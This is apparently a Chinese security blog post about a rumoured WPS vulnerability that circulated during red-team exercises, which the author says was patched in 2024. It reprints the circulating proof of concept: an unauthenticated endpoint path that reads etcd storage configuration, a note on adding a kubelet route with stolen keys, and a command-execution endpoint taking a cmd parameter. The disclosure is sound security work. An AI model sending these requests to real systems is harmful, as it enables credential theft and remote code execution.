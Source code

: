 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk0OTUwNTU5Nw==&mid=2247489632&idx=1&sn=cfd0fe4074ceae03eff8238fbf7b26ce

#  【相关分享】关于网传HVV中的WPS漏洞  
原创 隼目安全  隼目安全   2025-07-17 07:16  
  
## 免责声明  
> ❝  
> 由于传播、利用本公众号"隼目安全"所提供的信息而造成的任何直接或者间接的后果及损失,均由使用者本人负责,公众号"隼目安全"及作者不为此承担任何责任,一旦造成后果请自行承担!如有侵权烦请告知,我们会立即删除并致歉谢谢！  
  
  
关于网传WPS0day漏洞，系2024年已经被修复  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/9HKdHo8BvC1F8pdK1HHvSHVAyKfHgst3seOGuJfc8K7R9vXFkQNeSw3icYnN9PYfRmibQRtOiaqyeIibtziaFMUCXGA/640?wx_fmt=jpeg&from=appmsg "")  
  
下为网传poc  
  
1、未授权访问  

```
/open/v6/api/etcd/operate?key=/config/storage&method=get

```

  
2、获取AKSK后使用脚本添加kubelet 路由映射，但需要获取TOKEN  
  
3、向对应POD发起通信后实现RCE  

```
/open/wps/run/{namespace}/{podname}/node-exporter?cmd={url_encode_command} 

```

  
![](https://mmbiz.qpic.cn/mmbiz_gif/9HKdHo8BvC1F8pdK1HHvSHVAyKfHgst3d9gyibkXYcIz2rI5ibotnQ5NPLLfT1Lt5u4s2AHWncSCLoicNaHzrSMFg/640?wx_fmt=gif "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9HKdHo8BvC1F8pdK1HHvSHVAyKfHgst3ovp6EUfgSFFduJdCnDcr3V7NNWEJxlricCyeJp9mIxdKVNibVSEjRGnQ/640?wx_fmt=png "")  
  
  
  
